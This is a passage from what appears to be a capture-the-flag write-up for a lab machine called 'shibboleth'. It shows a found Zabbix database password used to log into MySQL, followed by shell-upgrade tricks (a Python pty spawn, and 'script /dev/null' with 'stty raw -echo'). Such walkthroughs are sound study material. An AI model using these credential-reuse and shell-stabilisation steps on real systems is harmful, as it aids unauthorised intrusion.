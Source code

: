<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>bloooarskybluh</p></figcaption></figure>

We found credentials -> let's try to connect to the mysql interface:

```
mysql -u zabbix -pbloooarskybluh
```

the shell does not give us anything it's pending, so I thought about upgrading it:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

This command uses the Python interpreter to spawn a new Bash shell with a pseudo-terminal (PTY) attached to it. The PTY provides a more interactive and functional shell environment

it did not seem to work so i disconnected and came back to this normal shell:

```
zabbix@shibboleth:/$
```

and upgraded it using the standard `script` trick:

```
script /dev/null -c bash
ctrl+z
stty raw -echo; fg
```
